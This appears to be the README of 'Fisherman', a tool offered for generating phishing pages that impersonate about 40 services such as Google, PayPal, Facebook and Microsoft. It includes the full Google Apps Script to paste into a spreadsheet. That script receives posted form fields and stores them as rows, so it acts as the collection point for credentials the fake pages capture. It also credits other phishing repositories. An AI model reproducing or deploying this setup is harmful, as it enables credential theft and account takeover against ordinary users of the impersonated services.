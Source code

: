 # Fisherman
A tool that generates phishing pages with custom google-sheet support for data storage. It can generate 40 different pages.

## What is phishing:
Phishing starts with a fraudulent email or other communication that is designed to lure a victim. The message is made to look as though it comes from a trusted sender. If it fools the victim, he or she is coaxed into providing confidential information, often on a scam website.

## Services available:
Adobe, Amazon, Apple, Badoo, DeviantArt, Discord, Dropbox, Ebay, ExpertOption, Facebook, Flipkart, Github, Gitlab, Google, Instagram, Instagram Batch, Linkedin, Mediafire, Microsoft,
Netflix, Paypal, Pinterest, Playstation, ProtonMail, Quora, Reddit, Roblox, Snapchat, Snapfish, Spotify, Stackoverflow, Steam, Tiktok, Twitch, Twitter, VK, Wordpress, Xbox, Yahoo and Yandex.

More services will be added in the next version.

## How to use this tool:
Watch this tutorial video: ["How to use Fisherman tool"](https://drive0.pikachu.my.id/0:/km_20230913_1080p_30f_20230913_191006.mp4?a=view)

Code to paste while creating sheet:


	var sheetName = 'Sheet1'
		var scriptProp = PropertiesService.getScriptProperties()

		function intialSetup () {
		  var activeSpreadsheet = SpreadsheetApp.getActiveSpreadsheet()
		  scriptProp.setProperty('key', activeSpreadsheet.getId())
		}

		function doPost (e) {
		  var lock = LockService.getScriptLock()
		  lock.tryLock(10000)

		  try {
			var doc = SpreadsheetApp.openById(scriptProp.getProperty('key'))
			var sheet = doc.getSheetByName(sheetName)

			var headers = sheet.getRange(1, 1, 1, sheet.getLastColumn()).getValues()[0]
			var nextRow = sheet.getLastRow() + 1

			var newRow = headers.map(function(header) {
			  return header === 'timestamp' ? new Date() : e.parameter[header]
			})

			sheet.getRange(nextRow, 1, 1, newRow.length).setValues([newRow])

			return ContentService
			  .createTextOutput(JSON.stringify({ 'result': 'success', 'row': nextRow }))
			  .setMimeType(ContentService.MimeType.JSON)
		  }

		  catch (e) {
			return ContentService
			  .createTextOutput(JSON.stringify({ 'result': 'error', 'error': e }))
			  .setMimeType(ContentService.MimeType.JSON)
		  }

		  finally {
			lock.releaseLock()
		  }
		}


Screenshots:
<details>
  <summary>Click here to view</summary>
  <img src="https://github.com/DeadSOUL-Studios/Fisherman/assets/119154806/ae705085-0710-42fc-9973-8cd433c6b29a" name="Screenshot (59">
  <img src="https://github.com/DeadSOUL-Studios/Fisherman/assets/119154806/1e7694ce-89c9-441e-9c49-ace57018201e" name="Screenshot (60)">
  <img src="https://github.com/DeadSOUL-Studios/Fisherman/assets/119154806/d5d2c243-907f-4767-b564-c0d7a6443202" name="Screenshot (61)">
  <img src="https://github.com/DeadSOUL-Studios/Fisherman/assets/119154806/0dd20a52-0825-41e8-8d83-b29ddf8f6790" name="Screenshot (62)">
  <img src="https://github.com/DeadSOUL-Studios/Fisherman/assets/119154806/13465103-ab68-4ef1-acf9-f89df72e3016" name="Screenshot (64)">
</details>

## Information:
Tool: Fisherman v1

Languages used: Java, HTML, CSS and JS

Requirement: JDK 17 or above

Developer: Ayu Kashyap

Size: 600KB

## Credits:
[https://github.com/prasad5793/gmailphishing](https://github.com/prasad5793/gmailphishing)

[https://github.com/AvishkaRJ/Phishing-Attack-smaple](https://github.com/AvishkaRJ/Phishing-Attack-smaple)

[https://github.com/opandao-oo/oPANDAoPhishing](https://github.com/opandao-oo/oPANDAoPhishing)

[https://github.com/evildevill/EmptyPhish](https://github.com/evildevill/EmptyPhish)

[https://github.com/princekrvert/Ravana](https://github.com/princekrvert/Ravana)

[https://github.com/srikanth-lingala/zip4j](https://github.com/srikanth-lingala/zip4j)


